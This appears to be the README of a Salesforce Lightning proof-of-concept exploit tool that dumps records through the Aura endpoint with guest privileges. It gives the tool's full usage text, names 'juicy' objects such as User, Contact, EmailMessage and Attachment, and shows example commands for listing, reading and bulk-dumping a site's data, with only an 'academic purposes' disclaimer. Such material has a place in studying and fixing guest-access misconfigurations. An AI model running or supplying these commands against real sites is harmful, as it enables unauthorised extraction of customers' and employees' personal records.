 # PoC for Salesforce lightning
***Academic purposes Only***. 


This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


雑なコードだけど許してくれい


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT] [-r RECORD_ID] [-d] [-f]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest
                        users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/s/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/s/ -o User Account

# save all objects(only page 0)
$ python3 exploit.py -u https://domain.force.com/path/s/ -d
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
